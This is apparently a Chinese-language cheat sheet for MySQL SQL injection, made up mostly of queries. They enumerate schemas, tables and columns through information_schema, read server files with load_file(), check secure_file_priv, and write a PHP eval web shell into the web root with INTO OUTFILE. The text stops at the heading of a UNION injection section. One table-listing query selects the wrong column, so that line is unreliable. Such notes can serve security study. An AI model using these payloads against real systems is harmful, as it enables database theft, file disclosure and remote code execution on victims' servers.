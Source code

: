 ```sql
select group_concat(schema_name) from information_schema.schemata;
```



**某数据库中所有表名**

```sql
select group_concat(schema_name) from information_schema.tables where table_schema='库名';
```



**表信息**表中有主码约束，非空约束等完整性约束条件的才能用这个语句查询出来

```sql
select group_concat(table_name) from information_schema.table_constraints where table_schema='库名';
```



**字段名**

```sql
select group_concat(column_name) from information_schema.columns where table_name = '表名';
```



**读文件**

```sql
select load_file('路径')
```

在mysql的配置文件my.ini中

**secure-file-priv**字段 ： secure-file-priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。

- ure_file_priv的值为null ，表示限制mysqld 不允许导入|导出

- 当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
- 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

**查看secure-file-priv参数的值：**

```sql
show global variables like '%secure%' ;
```



**写文件**

```sql
select '<?php @eval($_POST[cmd]) ?>' into outfile 'var/www/html/shell.php'
```



## UNION 注入



1.1**猜测字段长度**
